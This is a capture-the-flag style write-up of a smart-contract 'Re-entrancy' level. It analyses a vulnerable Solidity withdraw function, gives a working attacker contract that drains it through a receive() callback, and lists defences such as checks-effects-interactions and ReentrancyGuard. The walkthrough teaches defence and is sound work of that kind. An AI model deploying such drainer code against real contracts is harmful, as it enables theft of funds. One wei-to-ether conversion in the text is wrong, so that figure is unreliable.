

# Re-entrancy

The goal of this level is to steal all the funds from the contract.

Things that might help:

* Untrusted contracts can execute code where you least expect it.
* Fallback methods
* Throw/revert bubbling

## Code Breakdown

```solidity
using SafeMath for uint256;
mapping(address => uint) public balances;
```
The contract has one public mapping `balances` to keep tracking the balance of each address that has donated.

```solidity
function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }
```
`donate` allows users to donate funds to a specific address by calling the function and specifying the recipient's address as an argument. The function uses the SafeMath library to add the value of the donation to the recipient's balance.

```solidity
function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }
```

`balanceOf` allows users to view the balance of a specific address and takes that address as an argument.

```solidity
function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}(""); // At this point, the caller's code is executed, and can call withdraw again
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }
```

`withdraw` allows users to withdraw their funds from the contract by calling the function and specifying the amount they want to withdraw. The function checks if the user has sufficient funds and, if so, calls the recipient's contract to transfer the funds. It then subtracts the withdrawn amount from the user's balance.

This contract is vulnerable to a reentrancy attack.

***A reentrancy attack occurs when a contract calls another contract in a way that allows the called contract to call back into the original contract before the original contract has finished executing. This can potentially allow an attacker to repeatedly withdraw funds from the contract before the contract has a chance to update the user's balance, allowing the attacker to steal funds from the contract.***

the `withdraw` function calls the `msg.sender` address, which may be an attacker-controlled contract that is designed to call back into the withdraw function in an attempt to repeatedly withdraw funds.

## Game Completion

Let's create a smart contract to exploit this and drain `Reentrance` contract funds:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Reentrance {
    function withdraw(uint _amount) external;
    function donate(address _to) external payable; 
}

contract ReentranceHack {
    Reentrance rt;
    uint256 amount = 100000000000000; // 0.0001 ethers

    constructor(address _instance) public {
        // initialize with instance address
        rt = Reentrance(_instance);
    }

    receive() external payable{
        rt.withdraw(amount); // when we receive our initial amount we will call the withdraw() again and receive ether again since our balance is not updated yet
    }

    function hack() public payable{
        rt.donate{value: amount}(address(this)); // send 0.0001 ethers to the game contract's
        rt.withdraw(amount); // withdraw the same amount to trigger the receive() function
    }
}
```

Let's deploy our contract on [Remix IDE](https://remix.ethereum.org), and execute the `hack()` with a value of 10000000000000000 wei or 0.0001 ethers (same as the game instance's current balance).
After the execution, we will end up with ***0.0011 eth***:
0.0001 eth deposited earlier + 0.001 eth already in game instance balance.

Let's see how our transaction went in the block explorer:



we can see the `donate()` call followed by ***11*** `withdraw()` functions.

`Note: we might have to raise the Gas Limit on Metamask a bit if there are a lot of withdraw() calls so the transaction won't revert because of insufficient gas`

To prevent reentrancy attacks when moving funds of contracts we can use several methods:

* [Checks-Effects-Interaction Pattern](https://docs.soliditylang.org/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern) : Using this pattern when coding smart contracts is one of the ways to prevent reentrancy attacks. Checks must be done first, if all checks passed, effects to the state variables of the current contract should be made. Interaction with other contracts should be the very last step in any function.

* Mutex Or Lock: This will lock the current state so that any malicious attempts will be reverted. This ensures hat the contract is not interrupted while it is in the middle of processing a transaction. The unlock will then occur at the end of the function so it can be accessed next time. This design cannot be applied to all function logics..

* Pull Payments: The idea is that instead of pushing funds to a receiver, they have to be pulled out of the contract, that way we do not run arbitrary code.

* [ReentrancyGuard](https://docs.openzeppelin.com/contracts/3.x/api/utils#ReentrancyGuard) : Made by OpenZeppein, inheriting from this contract will make the ***nonReentrant*** modifier available.